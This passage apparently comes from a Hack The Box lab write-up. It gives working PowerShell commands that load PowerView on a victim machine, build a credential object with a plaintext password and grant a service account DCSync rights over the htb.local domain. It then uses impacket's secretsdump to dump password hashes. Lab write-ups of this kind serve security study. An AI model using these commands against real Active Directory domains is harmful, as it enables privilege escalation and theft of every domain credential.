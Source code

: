 we then upload `PowerView.ps1` (https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) to the victim machine and import it using `import-module .\PowerView.ps1`. This enables access to all the powershell cmdlets included within that module.

### Checking the help for the `Add-DomainObjectAcl` command

we view the help page and usage examples of the abuse command `Add-DomainObjectAcl` using `Get-Help Add-DomainObjectAcl -Examples`

![abuse-command-help](abuse-command-help.jpg)

we notice that we need to create a Powershell `Credential Object` and run the command to give our user `svc-alfresco` `DCSync` rights over `htb.local`. It should be as below:

```
$SecPassword = ConvertTo-SecureString 's3rvice'-AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB.local\svc-alfresco', $SecPassword)
Add-DomainObjectAcl -TargetIdentity "dc=htb,dc=local" -PrincipalIdentity 'HTB.local\svc-alfresco' -Rights DCSync -Credential $Cred -Verbose
```

This takes a little while to run but we eventually have permission to dump hashes.

### And down the hashes go...

We use impacket's `secretsdump.py` and voala! :D

![hashes_dumped](hashes_dumped.jpg)
